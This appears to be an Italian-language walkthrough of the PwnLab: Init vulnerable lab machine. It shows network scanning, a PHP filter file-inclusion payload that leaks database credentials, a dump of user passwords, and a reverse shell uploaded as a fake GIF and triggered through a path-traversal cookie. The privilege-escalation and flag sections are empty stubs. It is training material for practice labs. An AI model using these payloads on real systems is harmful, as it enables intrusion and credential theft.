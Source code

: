 # PWN_LAB INIT


## NETDISCOVER 👨‍💻
Prima di tutto eseguiamo un netdiscover per scoprire l'indirizzo ip della macchina 
```
netdiscover 10.211.55.0/24
Currently scanning: Finished! | Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 2 hosts. Total size: 126
_____________________________________________________________________________ 
IP At MAC Address Count Len MAC Vendor / Hostname
----------------------------------------------------------------------------- 
10.211.55.1 00:1c:42:00:00:18 1 42 Parallels, Inc. 
10.211.55.17 00:1c:42:4d:69:40 2 84 Parallels, Inc.
```

Il primo indirizzo é il nostro (macchina kali), la macchina da attaccare é il secondo ip della lista.

## NMAP 🔍
```
nmap -sV -sC 10.211.55.17
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-16 15:02 CEST Nmap scan report for pwnlab-vulnhub.shared (10.211.55.17)
Host is up (0.00012s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.10 ((Debian)) |_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
...
3306/tcp open mysql MySQL 5.5.47-0+deb8u1
| mysql-info:
| Protocol: 10
| Version: 5.5.47-0+deb8u1
| Thread ID: 39
| Capabilities flags: 63487
| Some Capabilities: SupportsLoadDataLocal, Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ConnectWithDatabase, InteractiveClient, FoundRows, Speaks41ProtocolNew, ODBCClient, SupportsCompression, LongPassword, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
| Status: Autocommit
| Salt: =sK^vV+r|=Vxyvdt;gv<
|_ Auth Plugin Name: mysql_native_password
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```
Visto che abbiamo trovato la porta 80 aperta, apriamo un browser e vediamo cosa troviamo.  
Troviamo una pagina di login e una di "upload" dove poter caricare dei dati, ma solo se loggati.

## LOGIN PAGE 🛠

<!-- qui manca il perché di questa cosa! -->
```
curl -s http://10.211.55.17/?page=php://filter/convert.base64-encode/resource=config
```
Analizziamo il comando: stiamo eseguendo una filter del codice php e lo stiamo codificando in modo tale che il broswer non interpreti il php, cosí da farci restituire il codice php come stringa codificata. In seguito decodifichiamo quello che é stato codificato in base64.
```
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ] <hr/><br/> PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRS center>
</body>
</html>
```
Decodifichiamo
```
echo "PD9waHANCiRzZXJ2ZXIJICA9I...lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVR" | base64 -d
```
Otteniamo il codice php in chiaro.
```
<?php
$server = "localhost"; 
$username = "root"; 
$password = "H4u%QJ_H99"; 
$database = "Users";
?>
```
Proviamo ad entrare su mysql con queste credenziali
```
mysql -h 10.211.55.17 -u root -p
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g. Your MySQL connection id is 114764
Server version: 5.5.47-0+deb8u1 (Debian)
...
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.002 sec)
...
MySQL [(none)]> use Users;
...
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
MySQL [Users]> Select * from users; 
+------+------------------+
| user | pass             | 
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== | 
| kane | aVN2NVltMkdSbw== | 
+------+------------------+
```
Anche le password sono codificate in base64.  
Proviamo a loggarci con  
* user: kent  
* password: Sld6WHVCSkpOeQ== (decodificata ->) JWzXuBJJNy  

Perfetto, ci siamo loggati ma notiamo che possiamo caricare solo immagini, quindi dobbiamo trovare il modo di caricare la nostra reverse shell come una immagine.
# REVERSE SHELL 🔁
Per caricare la reverse shell, prendiamo il file in php (/usr/share/webshells/php-reverse-shell.php), modifichiamolo con i nostri parametri e aggiungiamo in testa l'header dei file GIF: ```GIF89``` e cambiamo l'estensione in ```.gif```  
Carichiamo la nostra reverse shell modificata e facciamo partire netcat sulla nostra macchina.  
Sfruttando il browser nella cartella /uploads troviamo il nostro file.  
Per far esegure la shell caricata sul web server sfruttiamo burpsuite (ma anche curl va bene) eseguendo la seguente GET. (occhio al nome del file che abbiamo caricato nel cookie!)
<!-- anche qui manca il perché di questa cosa!-->
```
GET / HTTP/1.1
Host: 10.211.55.17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/ signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: lang=../upload/3eaa8ef68810b5720fdb48484d9b24ff.gif
If-None-Match: W/"17c7-5a5e2980343c0"
If-Modified-Since: Mon, 18 May 2020 02:05:15 GMT
Connection: close
```
## PRIVILEDGE ESCALATION 💵

<!-- si doveva modificare il comportamento di cat e poi chiamare un eseguibile che potevamo chiamare senza sudo: echo “/bin/sh/” > cat PATH=.:$PATH -->

## ROOT FLAG 🏴‍☠️
